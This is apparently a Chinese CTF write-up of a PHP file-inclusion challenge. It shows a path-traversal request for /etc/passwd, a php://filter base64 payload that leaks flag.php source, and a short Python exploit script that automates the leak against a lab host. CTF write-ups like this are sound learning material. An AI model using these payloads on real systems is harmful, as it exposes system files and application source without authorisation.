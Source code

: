 # 分析

来自[[ACTF2020 新生赛]Include](https://buuoj.cn/challenges#[ACTF2020%20%E6%96%B0%E7%94%9F%E8%B5%9B]Include)，文件包含

按照提示，访问?file=flag.php

![image-20240625191706808](image/image-20240625191706808.png)

首先想到是否有文件包含，`http://a0bbc459-769e-4fdd-b85a-02c2803046b5.node5.buuoj.cn:81/?file=../../../../../etc/passwd`

![image-20240625192006604](image/image-20240625192006604.png)

寻找flag无果，回味提示，flag是否在flag.php的源码里面呢，尝试php伪协议尝试得到源码,pyload=`?file=php://filter/read=convert.base64-encode/resource=flag.php`

![image-20240625194543700](image/image-20240625194543700.png)

进行base64解码得

![image-20240625194657936](image/image-20240625194657936.png)

# exp

```python
import requests
import base64
import re

url = "http://a0bbc459-769e-4fdd-b85a-02c2803046b5.node5.buuoj.cn:81/"
kw = {
    'file': 'php://filter/read=convert.base64-encode/resource=flag.php'
}
res = requests.get(url, params=kw)

if res.status_code == 200:
    res_text = res.content.decode('utf-8')
    # 打印响应内容（可选）
    #print(res_text)
    line=res_text.splitlines()
    flag=str(base64.b64decode(line[1]))
    #print(flag)
    # 使用正则表达式查找 flag
    flag_pattern = "flag\{.*?\}"
    flag_match = re.search(flag_pattern, flag)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag is -->> {flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```

